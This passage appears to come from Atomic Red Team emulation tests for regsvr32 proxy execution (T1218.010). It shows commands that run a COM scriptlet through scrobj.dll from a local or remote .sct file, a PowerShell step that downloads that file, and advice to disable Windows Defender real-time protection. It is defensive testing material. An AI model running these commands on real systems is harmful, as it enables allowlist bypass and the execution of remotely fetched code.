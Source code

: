 
#### Attack Commands: Run with `command_prompt`! 


```cmd
#{regsvr32path}\#{regsvr32name} /s /u /i:"#{filename}" scrobj.dll
```




#### Dependencies:  Run with `powershell`!
##### Description: Regsvr32.sct must exist on disk at specified location (#{filename})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{filename}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{filename}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/src/RegSvr32.sct" -OutFile "#{filename}"
```




<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls. This test may be blocked by windows defender; disable
windows defender real-time protection to fix it. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** c9d0c4ef-8a96-4794-a75b-3d3a5e6f2a36





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to hosted sct file | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct|
| regsvr32path | Default location of Regsvr32.exe | path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | string | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{regsvr32path}\#{regsvr32name} /s /u /i:#{url} scrobj.dll
```
